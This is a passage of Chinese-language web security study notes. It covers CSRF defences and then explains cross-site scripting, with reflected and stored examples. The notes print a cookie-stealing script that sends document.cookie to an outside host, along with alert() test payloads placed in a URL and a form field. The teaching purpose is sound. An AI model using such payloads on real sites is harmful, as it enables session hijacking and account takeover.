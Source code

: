 这种办法简单易行，工作量低，仅需要在关键访问处增加一步校验。但这种办法也有其局限性，因其完全依赖浏览器发送正确的 Referer 字段。虽然 HTTP 协议对此字段的内容有明确的规定，但并无法保证来访的浏览器的具体实现，亦无法保证浏览器没有安全漏洞影响到此字段。并且也存在攻击者攻击某些浏览器，篡改其 Referer 字段的可能。

**II 使用 Token 验证**

在访问敏感数据请求时，要求用户浏览器提供**不保存在 Cookie** 中，并且攻击者无法伪造的数据作为校验。例如服务器生成随机数并附加在表单中，并要求客户端传回这个随机数。所以可以**采用 token（不存储于浏览器）认证**。

**III 配合验证码进行验证**

因为 CSRF 攻击是在用户无意识的情况下发生的，所以要求用户**输入验证码**可以让用户知道自己正在做的操作，所以银行转账这些一般都会有短信验证码。

##### 2. 跨站脚本攻击XSS

###### (1) 概念

跨站脚本攻击（Cross-Site Scripting, XSS），可以将**代码**注入到**用户浏览的网页**上，这种代码包括 **HTML** 和 **JS** 代码，从而达到攻击的目的，如盗取用户的 **cookie**，改变网页的 DOM 结构，重定向到其他网页等。其实 XSS 的攻击方式就是想办法“教唆”**浏览器去执行一些这个网页中原本不存在的前端代码**。

**危害**：窃取用户的 Cookie、伪造虚假的输入表单骗取个人信息、显示伪造的文章或者图片等。

###### (2) 攻击原理

例如有一个**论坛网站**，攻击者可以在上面发布以下内容：

```html
<script>location.href="//domain.com/?c=" + document.cookie</script>
```

被攻击之后该内容可能会被**渲染**成以下形式：

```html
<p><script>location.href="//domain.com/?c=" + document.cookie</script></p>
```

另一个用户浏览了含有这个内容的页面将会跳转到 domain.com 并携带了**当前作用域的 Cookie**。如果这个论坛网站通过 Cookie 管理用户登录状态，那么攻击者就可以通过这个 Cookie 登录被攻击者的账号了。

###### (3) 攻击分类举例

**① 反射型XSS**

又称为非持久性跨站点脚本攻击，它是最常见的类型的 XSS。漏洞产生的原因是攻击者注入的数据反映在响应中。一个典型的非持久性 XSS 包含一个带 XSS 攻击向量的链接(即每次攻击需要用户的点击)。

**简单例子**：正常发送消息：`http://www.test.com/message.php?send=Hello,World！`，接收者将会接收信息并显示 Hello,Word。

非正常发送消息：`http://www.test.com/message.php?send=<script>alert(‘foolish!’)</script>！`，接收者接收消息显示的时候将会弹出警告窗口。

**② 持久型XSS**

又称为持久型跨站点脚本，它一般发生在 XSS 攻击向量(一般指 XSS 攻击代码)存储在网站数据库，当一个页面被用户打开的时候执行。每当用户打开浏览器脚本执行。持久的 XSS 相比非持久性 XSS 攻击危害性更大,因为每当用户打开页面，查看内容时脚本将自动执行。谷歌的 orkut 曾经就遭受到 XSS。

**简单例子：**

从名字就可了解到存储型 XSS 攻击就是将攻击代码存入数据库中，然后客户端打开时就执行这些攻击代码。例如留言板

留言板表单中的表单域：`<input type=“text” name=“content” value=“这里是用户填写的数据”>`

**正常操作：**用户是提交相应留言信息；将数据存储到数据库；其他用户访问留言板，应用去数据并显示。

**非正常操作：**攻击者在value填写`<script>alert(‘foolish!’)</script>`【或者html其他标签（破坏样式。。。）、一段攻击型代码】；将数据存储到数据库中；其他用户取出数据显示的时候，将会执行这些攻击性代码
